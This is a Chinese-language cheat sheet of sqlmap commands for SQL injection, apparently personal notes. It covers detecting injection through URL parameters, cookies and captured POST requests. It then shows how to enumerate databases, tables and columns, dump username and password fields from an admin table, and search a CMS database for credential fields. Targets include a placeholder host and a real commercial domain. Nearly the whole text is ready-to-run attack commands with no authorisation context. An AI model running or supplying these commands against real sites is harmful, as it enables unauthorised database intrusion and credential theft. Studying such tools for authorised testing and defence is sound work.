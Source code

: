推荐网站: http://www.91ri.org/6775.html 

当什么都弄不出来的时候：--flush-session --random-agent --level=5 --risk=3 -batch

**检测注入**

**基本格式**

sqlmap -u “http://www.vuln.cn/post.php?id=1”

默认使用level1检测全部数据库类型

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

**cookie注入**

当程序有防get注入的时候，可以使用cookie注入

sqlmap -u “http://www.baidu.com/shownews.asp” --cookie “id=11” --level 2（只有level达到2才会检测cookie）

**从post数据包中注入**

可以使用burpsuite或者temperdata等工具来抓取post包

sqlmap -r “c:\tools\request.txt” -p “username” --dbms mysql    指定username参数

**注入成功后**

**获取数据库基本信息**

**查询有哪些数据库**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 --dbs

**查询test数据库中有哪些表**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --tables

**查询test数据库中admin表有哪些字段**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --columns

**dump出字段username与password中的数据**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin -C “username,password” --dump

**也可以提前用--dump**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --dump

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --dump

**从数据库中搜索字段**

**在dedecms数据库中搜索字段admin或者password。**

sqlmap -r “c:\tools\request.txt” --dbms mysql -D dedecms --search -C admin,password





**sqlmap的高级用法**

tamper:

http://www.myh0st.cn/index.php/archives/881/

https://xz.aliyun.com/t/2746

•https://www.freebuf.com/sectool/179035.html